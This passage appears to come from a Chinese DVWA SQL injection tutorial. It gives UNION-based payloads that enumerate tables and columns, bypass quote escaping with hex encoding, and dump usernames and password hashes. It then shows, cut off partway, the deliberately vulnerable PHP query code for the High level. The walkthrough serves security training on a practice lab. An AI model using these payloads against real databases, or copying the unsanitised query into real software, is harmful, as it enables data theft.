 说明当前的数据库为 dvwa 。

### 5.获取数据库中的表 

抓包更改参数 id 为1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #，查询成功：

![][32]

说明数据库 dvwa 中一共有两个表，guestbook与users。

### 6.获取表中的字段名 

抓包更改参数 id 为1 union select 1,group_concat(column_name) from information_schema.columns where table_name= ’users ’# ，查询失败：

![][33]

这是因为单引号被转义了，变成了 \’ 。

可以利用 16 进制进行绕过，抓包更改参数 id 为1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0×7573657273 #，查询成功：

![][34]

说明 users 表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。

### 7.下载数据 

抓包修改参数 id 为1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #，查询成功：

![][35]

这样就得到了 users 表中所有用户的user_id,first_name,last_name,password的数据。

## High 

服务器端核心代码

    <?php   
  
if( isset( $_SESSION [ 'id' ] ) ) {   
    // Get input   
    $id = $_SESSION[ 'id' ];   
  
    // Check database   
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id LIMIT 1;";   
    $result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );   
  
    // Get results   
    $num = mysql_numrows( $result );   
    $i   = 0;   
    while( $i < $num ) {   
        // Get values   
        $first = mysql_result( $result, $i, "first_name" );   
        $last  = mysql_result( $result, $i, "last_name" );   
  

[1]: http://www.freebuf.com/articles/web/120747.html
[4]: http://www.dvwa.co.uk/
[5]: http://img0.tuicool.com/6zQRzqu.jpg!web
[6]: http://www.freebuf.com/sectool/102661.html
[7]: http://www.freebuf.com/articles/web/116437.html
[8]: http://www.freebuf.com/articles/web/116714.html
[9]: http://www.freebuf.com/articles/web/118352.html
[10]: http://www.freebuf.com/articles/web/119150.html
[11]: http://www.freebuf.com/articles/web/119467.html
[12]: http://www.freebuf.com/articles/web/119692.html
[13]: http://img0.tuicool.com/7vyYviA.jpg!web
[14]: http://img1.tuicool.com/Q7jmUnj.jpg!web
[15]: http://img1.tuicool.com/NRNJZfn.jpg!web
[16]: http://img1.tuicool.com/rEnq6zV.jpg!web
[17]: http://img0.tuicool.com/fMBZBvB.jpg!web
[18]: http://img2.tuicool.com/J3Ub63q.jpg!web
[19]: http://img2.tuicool.com/jMRVbmJ.jpg!web
[20]: http://img2.tuicool.com/ze6NBji.jpg!web
[21]: http://img1.tuicool.com/jUv2QjR.jpg!web
[22]: http://img0.tuicool.com/iu26faU.jpg!web
[23]: http://img0.tuicool.com/yey6NfF.jpg!web
[24]: http://img2.tuicool.com/yaAryey.jpg!web
[25]: http://img0.tuicool.com/RZBF7v6.jpg!web
[26]: http://img1.tuicool.com/UzEv2mf.jpg!web
[27]: http://img0.tuicool.com/r2I3m2J.jpg!web
[28]: http://img0.tuicool.com/NBjMZbE.jpg!web
[29]: http://img2.tuicool.com/ae2myiR.jpg!web
[30]: http://img0.tuicool.com/MZZNNfm.jpg!web
[31]: http://img1.tuicool.com/vAVfYbe.jpg!web
[32]: http://img2.tuicool.com/fYJzian.jpg!web
[33]: http://img1.tuicool.com/qYBbqij.jpg!web
[34]: http://img0.tuicool.com/VjaUNj6.jpg!web
[35]: http://img0.tuicool.com/uUR3em2.jpg!web
[36]: http://img1.tuicool.com/aaM3Yfv.jpg!web
[37]: http://img2.tuicool.com/YN77VbV.jpg!web
